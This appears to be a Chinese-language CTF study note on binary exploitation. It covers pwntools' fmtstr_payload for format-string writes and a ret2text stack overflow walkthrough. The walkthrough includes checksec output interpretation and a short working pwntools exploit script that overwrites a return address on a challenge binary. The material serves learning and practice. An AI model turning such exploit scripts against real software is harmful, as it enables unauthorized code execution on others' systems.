 ```
fmtstr_payload(offset,{be_change_addr:value})
```

即：在偏移量为offset处的位置使用任意地址漏洞将be_change_addr读写为value的值，原理。。。。。就是使用了某参数，C语言格式化字符串的漏洞



## 1、栈溢出



### 1、（1）ret2text



```
gdb pwn
```

```
checksec
```

![image-20240417170744847](${images}/image-20240417170744847.png)

No PIE意味着我们不需要额外暴露地址去寻找

No Canary Found说明可以栈溢出，不需要借助字符串格式化暴露canary

NX unknown说明有可能栈可执行，注入shellcode

RWX segment说明有段空间可Read Write Exe

Stack Executabal说明栈可执行

IDA访问文件=》然后F12看地址，F5看代码，X定位函数

以下是payload

```
from pwn import *

#r = remote('challenge-1b798affac46fc18.sandbox.ctfhub.com',37755)#建立远程连接
r = process('./pwn')

payload = b'A' * 0x78 + p64(0x4007b8)

r.sendline(payload)
r.interactive()
```



#### edb-debuger调试：原理测试

![image-20240417172935490](${images}/image-20240417172935490.png)

看到第五个参数是02，说明是x64程序，虽然看旁边的地址也知道是64位的

